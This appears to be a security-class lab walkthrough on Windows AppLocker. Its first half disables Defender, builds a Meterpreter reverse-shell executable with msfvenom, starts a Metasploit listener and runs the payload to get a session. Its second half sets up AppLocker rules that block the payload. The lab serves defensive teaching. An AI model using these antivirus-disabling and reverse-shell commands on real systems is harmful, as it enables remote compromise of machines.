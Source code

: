 AppLocker

Applocker Instructions:

Let’s see what happens when we do not have AppLocker running. We will set up a simple backdoor and have it connect back to the Ubuntu system. Remember, the goal is not to show how we can bypass EDR and Endpoint products. It is to create a simple backdoor and have it connect back.

First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

Set-MpPreference -DisableRealtimeMonitoring $true

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.

Thankfully, we have a couple of scripts that greatly simplify this process. Please make sure both your Windows and your Linux systems are running.

Let’s get started by opening a Terminal as Administrator

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

On your Linux system, please run the following command:

$ifconfig

Please note the IP address of your Ethernet adapter.

Please note that my adaptor is called eth0 and my IP address is 172.26.19.133. Your IP Address and adapter name may be different.

Please note your IP address for the ADHD Linux system on a piece of paper:

Now, run the following commands to start a simple backdoor and backdoor listener:

$ sudo su - Please note, the adhd password is adhd.

msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444  -f exe -o /tmp/TrustMe.exe

cd /tmp

ls -l TrustMe.exe

cp ./TrustMe.exe /mnt/c/tools

Now, let's start the Metasploit Handler. First, open a new Ubuntu Terminal by clicking the down carrot then selecting Ubuntu-18.04.

Let's become root.

sudo su -

root@DESKTOP-I1T2G01:/tmp# msfconsole -q

msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp

PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > set LHOST 172.26.19.133

Remember, your IP will be different!

msf5 exploit(multi/handler) > exploit

It should look like this:

Now, let’s download the malware and run it!

First, let's open a Windows command prompt. Simply select the down carrot from the Windows Terminal and select Command Prompt.

Once the prompt is open, let's run the following commands to run the TrustMe.exe file.

cd \tools

Take a deep breath. Count to 5. Then hit Ctrl+c to kill the connection.

Then, run it.

TrustMe.exe

Back at your Ubuntu prompt, you should have a metasploit session!

Now, let’s stop this from happening!

First, let’s configure AppLocker. To do this we will need to access the Local Security Policy on your Windows System.

Simply press the Windows key (lower left hand of your keyboard, looks like a Windows Logo) then type Local Security. It should bring up a menu like the one below, please select Local Security Policy.

Next, we will need to configure AppLocker. To do this, please go to Security Settings > Application Control Policies and then AppLocker.

In the right hand pane, you will see there are 0 Rules enforced for all policies. We will add in the default rules. We will choose the defaults because we are far less likely to brick a system.

Please select each of the above Rule groups (Executable, Windows Installer, Script and Packaged) and for each one, right click in the area that says “There are no items to show in this view.” and then select “Create Default Rules”

This should generate a subset of rules for each group. It should look similar to how it does below:

Next, we need to enforce the rules:

To do this you will need to select ApLocker on the far left pane. Then, you will need to select Configure rule enforcement. This will open a pop-up, you will need to check Configured for each set of rules

Now, we will need to start the Application Identity service. This is done through pressing the Windows key and typing Services. This will bring up the Services App. Please select that and then double-click “Application Identity.”

Once the Application Identity Properties dialog is open, please press the Start button. This will start the service.

Next, open a command prompt and run gpupdate to force the policy change

C:\ gpupdate /force

Next, log out as ADHD and log back in as allowlist.

You can do this easily by selecting the Windows icon and then the little wite user icon:

The password is ADHD.

Now, navigate to the C:>\Tools directory with Windows Explorer and try to run some of the .exe files.

You will see that most of the .exe files will generate an error.

Now, let's surf to your Linux system, download the malware and try to run it again.

You should get an error.

To finish this lab, simply restart your class VM and log in as ADHD.
